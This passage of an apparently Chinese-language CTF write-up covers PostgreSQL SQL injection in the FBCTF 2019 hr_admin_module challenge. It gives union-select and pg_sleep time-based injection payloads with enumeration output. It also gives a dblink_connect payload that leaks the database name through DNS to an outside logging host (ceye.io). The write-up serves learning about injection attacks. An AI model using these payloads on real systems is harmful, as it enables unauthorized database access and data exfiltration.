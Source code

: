 > - `gyy' union select 1,chr(-65) --`，没有警告

由order by可以判断此处列数为2，由union select可以判断1处对应列为数值类型，2处对应非数值类型

### 方法一：延时注入

 postgrest数据库中的延时函数有`pg_sleep()`/`pg_sleep_for()`/`pg_sleep_until()`

查阅资料得知：

>
>pg_sleep(seconds)
>pg_sleep_for(interval)
>pg_sleep_until(timestamp with time zone)
>
>pg_sleep让当前的会话进程休眠seconds 秒以后再执行。seconds是一个double precision 类型的值，所以可以指定带小数的秒数。
>pg_sleep_for 对于指定为interval的较长睡眠时间是一个便利函数。 
>pg_sleep_until在需要特定唤醒时间时比较便利。
>
>SELECT pg_sleep(1.5);
>SELECT pg_sleep_for('5 minutes');
>SELECT pg_sleep_until('tomorrow 03:00');

当时比赛脚本参考 [balsn](https://github.com/w181496/CTF/blob/master/fbctf2019/hr_admin_module/exp.py)

这里不做阐述，因为最终得出结果

```
version: (Debian 11.2-1.pgdg90+1)
current_db: docker_db
current_schema: public
table of public: searches
columns of searches: id,search
counts of search:0
```

`searches`表为空，所以本题应读取文件

### 方式二：信息外带

利用DNSlog方式

在PostgreSQL中，存在dblink模块，可以外联数据库或者当前数据库，dblink_connect同时会对host进行DNS查询，利用查询给定DNS的子域名，再查DNS解析记录即可获取传递的信息，这里用[ceye](http://ceye.io/)来记录

首先看看dblink模块有没有开启

```
./?f=1' union select 1,(select dblink_connect('')) --
```

没有报错，说明可以操作继续尝试

```
./?f=1' union select 1,(select dblink_connect('host=' || (SELECT current_database()) || '.xxxx.ceye.io user=a password=a dbname=a')) --
```

xxxx是ceye个人的 Identifier ，可见成功返回了当前数据库名
